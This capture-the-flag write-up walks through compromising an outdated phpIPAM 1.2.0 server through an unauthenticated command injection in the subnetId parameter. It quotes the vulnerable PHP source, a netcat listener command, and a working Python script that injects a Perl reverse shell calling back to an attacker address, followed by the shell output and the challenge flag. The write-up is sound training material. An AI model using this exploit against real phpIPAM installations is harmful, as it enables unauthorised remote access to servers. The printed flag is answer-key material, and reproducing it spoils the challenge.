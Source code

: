 # Chapter 2: Origins

## Challenge

Hi, TCC-CSIRT analyst,

Do you know the feeling when, after a demanding shift, you fall into lucid dreaming and even in your sleep, you encounter tricky problems? Help a colleague solve tasks in the complex and interconnected world of LORE, where it is challenging to distinguish reality from fantasy.

The entry point to LORE is at `http://intro.lore.tcc`.

See you in the next incident!

Hint: Be sure you enter the flag for the correct chapter.

## Solution

### 1. Entry Point Discovery

The entry point for this challenge is located at: `http://pimpam.lore.tcc/`.

Upon visiting the site, we discovered it was running an open-source application called **phpIPAM**. The source code for this application can be found here:  
[phpIPAM GitHub Repository](https://github.com/phpipam/phpipam).

### 2. Version Inspection

We inspected the version running on the server by visiting `http://pimpam.lore.tcc/misc/CHANGELOG`. The site was running **phpIPAM version 1.2.0**, which is very outdated (the latest version is 1.7.0).

We began searching for vulnerabilities related to this version. Although we found many CVEs (SQL injection, XSS), they mostly required user authentication, and we didn’t have the credentials.

### 3. Command Injection Vulnerability

While searching for vulnerabilities, we found an interesting blog post detailing vulnerabilities in phpIPAM:  
[Blog Post on phpIPAM Vulnerabilities](http://archive.justanotherhacker.com/2016/09/jahx163_-_phpipam_multiple_vulnerabilities.html).

One of the vulnerabilities mentioned was a **blind command injection** in the `subnetId` parameter of `subnet-scan-telnet.php`. This file allows for command execution without checking for user authentication.

We confirmed this by reviewing the source code of **phpIPAM 1.2.0**:  
[phpIPAM v1.2 source code](https://github.com/phpipam/phpipam/blob/1.2/app/subnets/scan/subnet-scan-telnet.php).

In the file, we noticed an `exec()` call that executes commands without verifying whether the user is logged in:

```php
<?php

/*
 * Discover new hosts with telnet scan
 *******************************/

# get ports
if(strlen($_POST['port'])==0) 	{ $Result->show("danger", _('Please enter ports to scan').'!', true); }

//verify ports
$pcheck = explode(";", str_replace(",",";",$_POST['port']));
foreach($pcheck as $p) {
	if(!is_numeric($p)) {
		$Result->show("danger", _("Invalid port")." ($p)", true);
	}
}
$_POST['port'] = str_replace(";",",",$_POST['port']);


# invoke CLI with threading support
$cmd = $Scan->php_exec." ".dirname(__FILE__) . "/../../../functions/scan/subnet-scan-telnet-execute.php $_POST[subnetId] '$_POST[port]'";

# save result to $output
exec($cmd, $output, $retval);
```

### 4. Exploitation

To exploit this vulnerability, we crafted a reverse shell using netcat to listen on port 20000:

```bash
nc -lvp 20000
```

Then, we injected the reverse shell payload into the subnetId parameter using the following Python exploit:

```python
import requests

url = 'http://pimpam.lore.tcc/app/subnets/scan/subnet-scan-telnet.php'
shell = """perl -e 'use Socket;$i="10.200.0.57";$p=20000;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'"""

data = {
    "port": 1,
    "subnetId": f"; {shell} ; "
}
r = requests.post(url, data=data)
print(r.text)
```

After running the exploit, we successfully connected to the server.

### 5. Retrieving the Flag

Once connected, we inspected the environment variables by running the **env** command:

```
connect to [10.200.0.57] from (UNKNOWN) [10.99.24.81] 33118
/bin/sh: 0: can't access tty; job control turned off
$ env
```

## Flag

```
FLAG{V51j-9ETA-Swya-8cOR}
```